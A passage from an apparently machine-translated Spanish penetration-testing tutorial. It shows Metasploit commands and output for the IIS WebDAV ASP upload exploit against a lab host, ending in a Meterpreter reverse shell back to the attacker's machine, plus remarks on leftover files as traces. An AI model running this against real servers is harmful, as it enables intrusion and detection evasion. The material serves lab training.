 ```

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Procedemos a establecer los parámetros necesarios. Por ahora, estos serían`LHOST`y`RHOST`Como todo lo demás en el objetivo parece estar ejecutando la configuración predeterminada.

### **MSF - Configuración de exploit y carga útil**

Meterpréter

```
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15

RHOST => 10.10.10.15

msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0

LHOST => tun0

msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.14.26:4444
[*] Checking /metasploit28857905.asp
[*] Uploading 612435 bytes to /metasploit28857905.txt...
[*] Moving /metasploit28857905.txt to /metasploit28857905.asp...
[*] Executing /metasploit28857905.asp...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Deleting /metasploit28857905.asp (this doesn't always work)...
[!] Deletion failed on /metasploit28857905.asp [403 Forbidden]
[*] Meterpreter session 1 opened (10.10.14.26:4444 -> 10.10.10.15:1030) at 2020-09-03 10:10:21 +0000

meterpreter >

```

Tenemos nuestro caparazón de meterpreter. Sin embargo, eche un vistazo de cerca a la salida anterior. Podemos ver un`.asp`Archivo nombrado`metasploit28857905`existe en el sistema objetivo en este mismo momento. Una vez que se obtenga la carcasa del meterpreter, como se mencionó anteriormente, residirá dentro de la memoria. Por lo tanto, el archivo no es necesario y la eliminación fue intentada por`msfconsole`, que falló debido a los permisos de acceso. Dejar rastros como estos no es beneficioso para el atacante y crea una gran responsabilidad.
